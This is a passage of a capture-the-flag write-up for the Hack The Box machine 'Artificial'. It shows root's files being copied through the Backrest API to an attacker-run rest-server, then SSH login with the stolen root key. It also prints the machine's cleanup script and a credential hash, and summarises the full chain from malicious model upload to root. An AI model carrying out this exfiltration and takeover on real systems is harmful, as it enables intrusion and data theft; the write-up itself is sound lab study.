go install github.com/restic/rest-server/cmd/rest-server@latest

mkdir -p /tmp/restic
rest-server --path /tmp/restic --listen :4444 --no-auth
```

- In the BackrestAPI - **Add a Repo**

```bash
Repo Name:
backup_name

Repository URI:
rest:http://10.10.14.14:4444/
```

- Test the configuration and Submit (save)



```bash
# OUTPUT received on the KALI rest-server
Creating repository directories in /tmp/restic
```

- In the BackrestAPI - **Add a Plan** with the following values and Submit

```bash
Plan Name:
root

Repository:
backup_name

Paths:
/root
```



- Run the Backup Plan manually
  - This will create a snapshot on the Kali Restic Server

- Restore the backup

```bash
# KALI
sudo apt install restic

restic snapshots -r /tmp/restic/

enter password for repository: 
repository 921dda5a opened (version 2, compression level auto)
created new cache in /home/syselement/.cache/restic
ID        Time                 Host        Tags                             Paths  Size
--------------------------------------------------------------------------------------------
af0fc73c  2025-06-28 02:49:28  artificial  plan:root,created-by:Artificial  /root  4.299 MiB
--------------------------------------------------------------------------------------------
1 snapshots
```

```bash
mkdir /tmp/restored
restic restore -r /tmp/restic/ af0fc73c --target /tmp/restored
```

### Shell as root - SSH with SSH key

```bash
mv /tmp/restored/root $HOME/htb/artificial/
cd $HOME/htb/artificial/root/.ssh

ssh -i id_rsa root@10.10.11.74

root@artificial:~# id
uid=0(root) gid=0(root) groups=0(root)
```

```bash
# Root Flag
root@artificial:~# cat root.txt 
bd9b5e7fb1cfede314d266b0bb0c17ca
```

---

## Post Exploitation

```bash
root@artificial:~# crontab -l
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
*/10 * * * * /root/scripts/cleanup.sh
```

```bash
root@artificial:~# cat scripts/cleanup.sh 
#!/bin/bash
rm -r /dev/shm/*
shopt -s extglob
rm -r /tmp/!(systemd*)
rm -r /home/*/!(.bash_logout|.bashrc|user.txt|.ssh|.profile|.bash_history|.python_history|.sqlite_history|app)
rm -r /home/app/app/!(app.py|instance|models|__pycache__|static|templates)
rm -r /home/app/app/instance/!(users.db)
rm -r /home/app/app/static/!(css|js|requirements.txt|Dockerfile)
rm -r /home/app/app/static/css/!(styles.css)
rm -r /home/app/app/static/js/!(scripts.js)
rm -r /root/.ssh/!(id_rsa|authorized_keys)
rm -r /root/!(root.txt|scripts)
rm -r /home/app/app/templates/!(dashboard.html|index.html|login.html|register.html|run_model.html|sales_statistics.html)
shopt -u extglob
rm -r /home/app/app/models/*
rm -r /opt/backrest/.config/backrest/*
cp /root/scripts/config.json /opt/backrest/.config/backrest/config.json
chmod 600 /opt/backrest/.config/backrest/config.json
truncate -s 0 /opt/backrest/processlogs/backrest.log
sqlite3 /opt/backrest/oplog.sqlite 'delete from operations; delete from operation_groups'
/usr/sbin/service backrest restart
```

```bash
root@artificial:~# cat scripts/config.json 
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}
```

Why does `cleanup.sh ` exist:

- To remove any uploaded files, logs, or traces of exploitation
- To restore the environment to an expected state every 10 minutes
- To make persistent compromise harder to maintain

What to watch out for if re-exploiting:

- Any malicious files or shells you drop will be deleted within 10 min
- Evidence in logs or SQLite will be wiped
- Any config changes will be overwritten

---

## Summary

1. **Uploaded a malicious `.h5` TensorFlow model** to the web app.
2. The model triggered **remote code execution** as the `app` user.
3. Enumerated the system and **dumped the SQLite database** with user hashes.
4. **Cracked MD5 hashes** from `users.db`, recovering plaintext passwords.
5. Used the cracked credentials to **SSH in as `gael`.**
6. Found **`/var/backups/backrest_backup.tar.gz`** owned by `sysadm`.
7. Extracted it locally and discovered **`backrest` config with a bcrypt password hash.**
8. **Cracked the bcrypt hash** to get `backrest_root` credentials.
9. **SSH-tunneled port 9898** to access the Backrest API running as root.
10. **Authenticated to the API** using the cracked credentials.
11. Set up a **rest-server on Kali** to receive backups.
12. Used Backrest to **backup `/root` to Kali machine.**
13. **Restored the backup locally** and retrieved `root.txt`.

---

## Extra

- [HTB: Artificial | 0xdf hacks stuff](https://0xdf.gitlab.io/2025/10/25/htb-artificial.html)
- [Artificial - Ippsec](https://www.youtube.com/watch?v=uGgnWQaG-bA)

---

